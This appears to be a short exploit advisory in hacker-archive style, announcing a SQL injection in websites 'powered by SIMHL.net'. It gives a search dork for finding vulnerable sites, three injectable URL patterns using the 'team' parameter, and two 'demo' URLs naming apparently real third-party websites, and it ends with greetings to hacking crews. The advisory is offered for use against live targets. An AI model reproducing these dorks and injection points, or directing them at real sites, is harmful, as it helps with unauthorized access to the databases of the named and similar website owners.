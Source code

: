 # Tested On : Backtrack Liyan Oz Edition
# Contact   : ariestiyansyah.rizky@gmail.com
# Home      : http://0nto.wordpress.com/
# Dork 	    : "powered by SIMHL.net"
#
#=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=

#
# Exploit : 

http://www.site.com/prospects.php?team=[SQLi]'


http://www.site.org/prospect.php?team=[SQLi]'


http://www.site.net/team.php?team=[SQLi]'

# Demo :

http://lnhs2.hostpo.net/prospect.php?team=1'


http://www.lchv.biz/prospects.php?team=17'

# Greetz to 

========================================================================
#                 =   My Lovely Junia Astri Damayanti =
#
#      = Dis9 The Underground Exploitation Team [at] www.dis9.com =
#
#   - Kedans Dz - Blackrootkit - Kalashinkov3 - KnockOut - Black-ID  -
#   - Kowalski Howard - 7h1nkz3r0 - ettack - Ackrootkit - ph0n7ric   -
#   - xi4ojin - Nimda - Killer - Dz - 2ext01 - Aoi Sora - X1 - brk   -
#
#   - Indonesian Backtrack Team , El N4ck0 , and all my friend ^_^   -
#=======================================================================</pre>
